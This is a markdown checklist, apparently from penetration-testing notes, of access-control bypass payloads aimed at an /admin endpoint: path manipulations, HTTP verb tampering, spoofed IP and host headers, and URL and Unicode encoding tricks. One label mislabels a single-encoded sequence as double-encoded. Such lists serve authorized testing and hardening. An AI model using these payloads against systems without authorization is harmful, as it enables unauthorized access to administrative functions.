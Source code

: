 
## ▶️ URL Path Manipulation
- [ ] `/admin/`
- [ ] `/..;/admin/`
- [ ] `/admin%2f`
- [ ] `/%2e/admin/`
- [ ] `/admin/.`
- [ ] `/admin%20/`
- [ ] `/admin;/`
- [ ] `/admin//`
- [ ] `/./admin`
- [ ] `/admin?`
- [ ] `/admin#`
- [ ] `/admin/%2e%2e/`
- [ ] `/admin%09/`
- [ ] `/admin%00`
- [ ] `/a͏d͏m͏i͏n/` (Unicode obfuscation)

## HTTP Method/Verb Bypass
- [ ] `GET`
- [ ] `POST`
- [ ] `HEAD`
- [ ] `OPTIONS`
- [ ] `DELETE`
- [ ] `PUT`
- [ ] `PATCH`
- [ ] `TRACE`
- [ ] `MOVE`
- [ ] `CONNECT`

## HTTP Header Bypass Vectors
- [ ] `X-Original-URL: /admin`
- [ ] `X-Custom-IP-Authorization: 127.0.0.1`
- [ ] `X-Forwarded-For: 127.0.0.1`
- [ ] `X-Remote-IP: 127.0.0.1`
- [ ] `X-Originating-IP: 127.0.0.1`
- [ ] `X-Forwarded-Host: internal.example.com`
- [ ] `Forwarded: for=127.0.0.1`
- [ ] `X-HTTP-Method-Override: PUT`
- [ ] `X-Original-Host: localhost`
- [ ] `Host: 127.0.0.1`

## Encoding Tricks
- [ ] `%2e%2e%2f` (double URL-encoded `../`)
- [ ] `%25%32%65` (double-encoded `%2e`)
- [ ] `%c0%ae%c0%ae/` (non-standard UTF-8 encoding)
- [ ] `%e0%80%ae/`
- [ ] `%ef%bc%8f` (Unicode full-width `/`)
- [ ] `\u002e\u002e/`
- [ ] `..%u2215` (Unicode slash)
- [ ] `..\\admin`
- [ ] `..%5Cadmin`
- [ ] `admin%ff`

## Combined Bypass Strategies
- [ ] `POST with X-HTTP-Method-Override: GET`
- [ ] URL + Header combo (`/admin` + `X-Forwarded-For`)
- [ ] Encoded path + internal host header
- [ ] Unicode + Verb Tampering
- [ ] Obfuscated IP headers + custom 404 handling